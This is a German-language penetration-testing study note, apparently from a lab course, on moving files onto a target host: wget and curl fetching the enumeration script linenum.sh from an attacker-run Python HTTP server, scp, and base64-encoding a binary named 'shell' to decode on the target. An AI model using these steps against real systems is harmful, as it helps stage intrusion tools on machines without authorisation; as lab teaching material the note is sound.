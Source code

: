 Um Daten übertragen zu können von einer Maschine zu einer anderen können wir folgendes machen:
# Using wget
Dafür müssen wir im Verzeichnis wo unsere Datei sich befindet einen `python HTTP Server` laufen lassen, dieser ist zu gleich unser listining server
```shell-session
cd /tmp   #Hier befindet sich die Datei
python3 -m http.server 8000
```

Nun können wir com Zielhost die Datei runterladen
```shell-session
wget http://10.10.14.1:8000/linenum.sh
```
wenn du kein wget hast, kannst du auch mit curl machen:
```shell-session
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

____

# Using SCP
**Voraussetzung wir haben ssh user credentials** 
```shell-session
scp linenum.sh user@remotehost:/tmp/linenum.sh
```

___

# Using BASE64
Wenn du *nicht* Files transferieren kannst, weil zb eine Firewall da ist, kannst du deine Datei in BASE64 Encoden und dies dann senden, z.b. wollen wir eine **Datei** namens shell, `-w` sorgt dafür, dass keine Zeilenumbrüche beim decoden passiert, 
```shell-session
base64 shell -w 0
```
Du kannst nun einfach den output kopieren und beim Zielhost decoden
```shell-session
echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

____

# Validierung File Transfer

Um das **File Format zu validieren**:
```shell-session
file dateiname
```

Um sicherzustellen, dass ein file, während des Transfers nicht verändert oder kaputt gegangen ist, kannst du die `md5 hash` zur validierung nehmen, hol dir bei beiden den Md5 hash und gucke ob sie glecih  